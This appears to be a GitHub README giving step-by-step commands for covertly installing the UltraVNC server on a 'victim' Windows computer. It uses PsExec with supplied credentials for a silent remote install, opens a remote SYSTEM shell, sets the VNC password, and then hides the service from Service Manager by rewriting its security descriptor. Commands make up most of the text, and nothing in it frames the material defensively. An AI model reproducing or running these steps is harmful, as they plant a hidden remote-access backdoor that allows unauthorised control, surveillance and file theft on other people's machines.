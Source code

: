 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![UltraVNC](assets/uvnc.jpg "Open source UltraVNC remote desktop client/server")

## Install VNC Server to Victim Computer

You can remotely view, control or transfer files the victim computer using the UltraVNC tool. For this, follow the steps below.

### Step 1: Download UltraVNC setup

Download ultravnc to your computer as **"c:\\uvncsetup.exe"**.

### Step 2: Start installation 

To silently install ultravnc on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe**. Below command runs executable (uvncsetup.exe) on the remote system:

`psexec \\victim -u Default -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"`

Note: The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.



### Step 3: Set ultravnc password

To define new ultravnc password and restart ultravnc_service on victim first open an interactive shell to victim computer.

`psexec \\victim -u Default -p admin0 -h -s -i cmd.exe`

And runs commands below. First command creates **ultravnc.ini** file with the password 'admin0' at  **"%programfiles%\uvnc"** on victim computer. Second command restart the ultra vnc service to take affect new password.

`(echo [ultravnc] & echo passwd=56B6ACA18D1BA76008 & echo passwd2=56B6ACA18D1BA76008) > "%programfiles%\uvnc\ultravnc.ini"`
`net start uvnc_service`

### Step 5: Check the installation

If you want to check UltraVNC listen port and running process:

`netstat -ano | find "5900"`\
`tasklist /fi "pid eq <pid>"`

Run UltraVNC viewer and connect to victim computer. You can control it with mouse/keyboard or download/upload files via UltraVNC's  file manager.

![UltraVNC Viewer](assets/uvnc_viewer.png "UltraVNC Viewer")

### Bonus Step: Hide UltraVNC

To hide the service uvnc_service from Service Manager GUI run below:

`sc sdshow uvnc_service "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"`

To show it again run below:

`sc sdset uvnc_service "D:(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)(A;;CC;;;AC)(A;;CC;;;S-1-15-3-1024-528118966-3876874398-709513571-1907873084-3598227634-3698730060-278077788-3990600205)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)"`

